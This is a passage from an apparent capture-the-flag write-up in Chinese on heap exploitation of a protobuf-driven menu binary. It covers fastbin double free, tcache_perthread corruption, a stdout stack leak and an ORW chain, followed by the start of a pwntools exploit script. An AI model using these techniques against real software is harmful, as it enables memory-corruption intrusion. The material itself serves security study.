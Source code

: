 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-6a70209651d606322978115b8e9ffeab3937a161.png)

- delete次数有限如何做到多次任意地址申请，显然是要通过tcache\_perthread结构（但是可以edit大小有限，因此得想办法edit更大的区域），通过仅有的一次fastbin double free申请得到heapbase+0xf0。
- 注意到一开始bin中有个0xf0 tcache chunk，那么可以通过修改tcache\_perthread结构将这个chunk改为heapbase+0x10，然后通过clean函数处理msg就实现了可以edit 0xe0大小的tcache\_perthread结构

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-8ad155e4327e12f42c24ff400348aae1bacefa65.png)

- 剩下的就不是很难了，一开始准备申请出environ泄露stack,但是memcpy的赋值会覆盖原本存的值，而且show三次会关闭标准输入输出，所以最后通过打stdout来泄露出stack，然后orw就行了

exp
---

```python
from pwn import *
from pwnlib.util.packing import u64
from pwnlib.util.packing import u32
from pwnlib.util.packing import u16
from pwnlib.util.packing import u8
from pwnlib.util.packing import p64
from pwnlib.util.packing import p32
from pwnlib.util.packing import p16
from pwnlib.util.packing import p8
import devicemsg_pb2
context(os='linux', arch='amd64', log_level='debug')
p = process("/home/zp9080/PWN/pwn")
elf = ELF("/home/zp9080/PWN/pwn")
libc=elf.libc
def dbg():
    gdb.attach(p,'b *$rebase(0x1994)')  
    pause()

menu="WHAT DO YOU WANT?\n"
def add(msgidx, msgdent):
    d = devicemsg_pb2.devicemsg()
    d.whatcon = msgdent
    d.whattodo= 1
    d.whatidx = msgidx
    d.whatsize=0
    d.whatsthis=0
    strs = d.SerializeToString()
    p.sendafter(menu, strs)

def delete(msgidx):
    d = devicemsg_pb2.devicemsg()
    d.whatcon = b''
    d.whattodo= 2
    d.whatidx = msgidx
    d.whatsize=0
    d.whatsthis=0
    strs = d.SerializeToString()
    p.sendafter(menu, strs)

def show(msgidx):
    d = devicemsg_pb2.devicemsg()
    d.whatcon = b''
    d.whattodo= 3
    d.whatidx = msgidx
    d.whatsize=0x20
    d.whatsthis=0x20
    strs = d.SerializeToString()
    p.sendafter(menu, strs)

```